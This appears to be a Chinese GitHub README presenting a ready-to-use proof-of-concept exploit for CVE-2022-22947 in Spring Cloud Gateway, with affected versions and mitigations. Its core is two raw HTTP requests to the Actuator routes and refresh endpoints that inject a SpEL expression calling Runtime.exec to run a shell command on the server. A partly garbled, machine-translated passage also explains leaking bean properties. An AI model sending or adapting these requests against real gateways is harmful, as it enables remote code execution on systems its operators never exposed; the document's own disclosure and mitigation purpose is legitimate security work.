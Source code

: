 # Spring_CVE_2022_22947
Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用
![image](https://user-images.githubusercontent.com/53851034/156614534-ec365420-9bca-4236-a10e-98fc7ed71d43.png)

漏洞描述 ：#####
#漏洞
漏洞描述：#####
### Spring Cloud Gateway Spring中API网关攻击。3.1.0及3.0.6版本（包含）之前存在SpEL表达式的插件，当开发者可以利用Actuator API的执行情况下，将是该漏洞的命令选项。
漏洞描述：#####
# 影  响范围 :
## Spring Cloud Gateway以下版本均受影响：

    3.1.0
    3.0.0至3.0.6
    其他老版本 
    
#  缓解方法 ： 
    3.1.x用户应升级到3.1.1+
    3.0.x用户应升级到3.0.7+
    如果不需要Actuator端点，可以通过management.endpoint.gateway.enable：false配置将其禁用
    如果需要Actuator端点，则应使用Spring Security对其进行保护 

CVE-2022-22946：HTTP2 不安全的 TrustManager :

严重性 ： Medium 


![image-20220303141049270](https://user-images.githubusercontent.com/53851034/156614983-1471d8b7-89b5-4e8d-8d5b-a451089a44e9.png)



###





# poc漏洞利用:

### 来自白帽汇:
#### 使用方法:burpsuite改包发送

{

    POST /actuator/gateway/routes/new_route HTTP/1.1    

    Host: 127.0.0.1:9000

     Connection: close

     Content-Type: application/json

     {

     "predicates": [

        {

         "name": "Path",
 
         "args": {

           "_genkey_0": "/new_route/**"
 
        }

        }

     ],

     "filters": [

     {

      "name": "RewritePath",

      "args": {

       "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch/tmp/x\")}",
 
       "_genkey_1": "/${path}"

     }

    }

     ],

    "uri": "https://wya.pl",

    "order": 0

    }

}
# 第二段poc利用:

{
    
    POST /actuator/gateway/refresh HTTP/1.1

    Host: 127.0.0.1:9000

    Content-Type: application/json

    Connection: close

    Content-Length: 258

    {

     "predicate": "Paths: [/new_route], match trailing slash:true",

    "route_id": "new_route",

     "filters": [

      "[[RewritePath#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} =/${path}], order = 1]"

     ],

    "uri": "https://wya.pl",

     "order": 0

    }


}

### 简单说明一下：第一个请求将创建路由；第二个命令强制重新加载配置。并且，在路由的重新加载时，将会执行SpEL表达式。

# 利用方法:


![image](https://user-images.githubusercontent.com/53851034/156774162-2db9bafc-c5d1-4046-9c72-e79649b76d86.png)


{
        
        SimpleEvaluationContext支持SpEL功能的一个子集，一般来说，它比StandardEvaluationContext更加安全。根据Javadocs的说法，“SimpleEvaluationContext只支持SpEL语言语法的一个子集，例如，不包括对Java类型、构造函数和Bean引用的引用。”

{   
        
        当我在研究这个问题时，我看到SpEL的原始需求来自GitHub repo上的一些问题：主要是用户希望实现一个可以通过SpEL表达式调用的自定义bean。一个例子是管理一个路由的速率限制。当我研究这个补丁的时候，我发现仍然可以调用没有方法参数的Bean——这意味着#{@gatewayProperties.toString}可以被用来打印出gatewayPropertiesBean的定义。而SimpleEvaluationContext是不允许调用#{@gatewayProperties.setRoutes(..)}的。这在本质上应该只限制getter方法被调用。

#### 或者:

    [在使用添加和刷新路由所需的两个HTTP请求发送#{@gatewayproperties.tostring}后，可以看到上图所示内容。请注意，一些内部信息可能会遭到泄漏。根据可用的Bean，这可能被用来泄漏应用程序状态的属性或其他属性。
    虽然网关服务不用对类路径中包含的bean负责，但它至少应该确保它的库中的bean不会被调用，从而导致泄漏重要信息或对应用程序产生负面影响。]

    [最后，我编写了更多的CodeQL查询，看看会发生什么情况。简单来说，我想在库中找到所有不带参数的方法的bean。然后，递归地查看返回类型，看看是否有任何没有参数的方法可以调用。这些查询看起来类似于bean1.method1.method2这个样子。]


